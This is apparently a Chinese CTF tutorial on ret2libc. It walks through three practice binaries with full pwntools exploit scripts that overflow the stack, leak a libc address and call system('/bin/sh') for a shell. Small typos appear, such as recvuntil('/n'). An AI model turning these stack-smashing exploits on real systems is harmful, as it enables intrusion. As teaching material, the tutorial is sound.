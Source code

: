 ```yaml
---
title: 【PWN】ret2libc
---
```


## 原理

ret2lic即劫持程序的控制流，使其执行libc中的函数，一般是返回到某个函数的plt处，或者某个函数的具体位置（函数对应got表的内容），大多情况下是执行system('/bin/sh')。

## 例题1

题目下载链接：https://pan.baidu.com/s/1DzkmINus__xu3_qkwoIPwQ 提取码：0000 

首先查看一下程序开了哪些安全保护

![image-20210105202149700](/images/ret2libc/1.png)

程序是小端序32位，开了NX防护。接着使用ida查看一下程序

![image-20210105202739929](/images/ret2libc/2.png)

程序有明显的栈溢出，在plt表中发现有system函数的地址和/bin/sh字符串

![image-20210105203242739](/images/ret2libc/3.png)

![image-20210105203513119](/images/ret2libc/4.png)

通过gdb调试确定字符串s的地址离ebp有多少字节，直接通过ida也能确定需要填充多少字符,，不过动态调试结果比较准

![image-20210105203911307](/images/ret2libc/5.png)

最后的exp如下：

```python
from pwn import *

context.log_level = 'debug'
p = process('./ret2libc1')
elf = ELF('./ret2libc1')

sys_addr = elf.plt['system']
bin_sh = elf.search('/bin/sh').next()

payload = cyclic(0x70) + p32(sys_addr) + p32(0xdeadbeef) + p32(bin_sh)

p.recv()
p.sendline(payload)

p.interactive()
```

## 例题2

题目下载链接：https://pan.baidu.com/s/1I9IOqD3Jq6RrghlUNL0wsg  提取码：0000 

这道题与例题1基本相似，只是程序中没有了/bin/sh字符串，我们需要通过gets函数手动写入/bin/sh字符串到一个可写可执行区域，通常在bss段，在ida找到一个地址

![image-20210105205900389](/images/ret2libc/6.png)

```python
from pwn import *

context.log_level = 'debug'
p = process('./ret2libc2')
elf = ELF('./ret2libc2')

sys_addr = elf.plt['system']
gets_addr = elf.plt['gets']
bss_addr = 0x0804A080

payload = cyclic(0x70) + p32(gets_addr) + p32(sys_addr) + p32(bss_addr) + p32(bss_addr)

p.recv()
p.sendline(payload)
p.sendline('/bin/sh')

p.interactive()
```

## 例题3

题目下载链接：https://pan.baidu.com/s/1wk3JFQBHgVZ0vjfnQk60Ug  提取码：0000 

例题3相对于前面两道例题难度加大了不少，程序中既没有system函数的地址，也没有/bin/sh字符串，我们需要使用libc中的system函数和/bin/sh，题目已经将libc版本给了出来，这时需要泄露libc某个函数的地址。

先使用ida查看程序

![image-20210105213153494](/images/ret2libc/7.png)

主函数中并没有产生溢出，但有两个可以的函数，跟进去看看

![image-20210105213403543](/images/ret2libc/8.png)

See_something函数是打印给定地址的值，可以通过这个漏洞函数可以泄露libc函数的地址

![image-20210105213622064](/images/ret2libc/9.png)

Print_message函数的字符串拷贝存在栈溢出，又main函数可知src字符串长度最多可达256，远超过56。由于在libc中各函数地址的偏移是固定的，通过泄露出某个函数的真实地址，再减去该函数在libc中的地址就能得到libc函数中加载到内存的基址，这样就能计算出system函数和/bin/sh的地址。

exp如下：

```python
from pwn import *

context.log_level = 'debug'
p = process('./ret2libc3')
elf = ELF('./ret2libc3')
libc = ELF('./libc-2.23.so')


p.recvuntil('(in dec) :')
p.sendline(str(elf.got['puts']))
puts_addr = p.recvuntil('/n', drop = True)[-10:]
p.recvuntil('for me :')

libc_base = int(puts_addr, 16) - libc.symbols['puts']
sys_addr = libc_base + libc.symbols['system']
bin_sh = libc_base + libc.search('/bin/sh').next()

payload = cyclic(0x3c) + p32(sys_addr) + p32(0xdeadbeef) + p32(bin_sh)

p.sendline(payload)
p.interactive()
```

## 总结

实际上大部分题都需要我们自己获得system函数的地址，通常是通过libc的延迟绑定机制，泄露出已经执行过的函数的地址，而libc中的函数之间的相对偏移是固定的，有时候还需要返回到main函数或其他函数多次构造payload进行利用。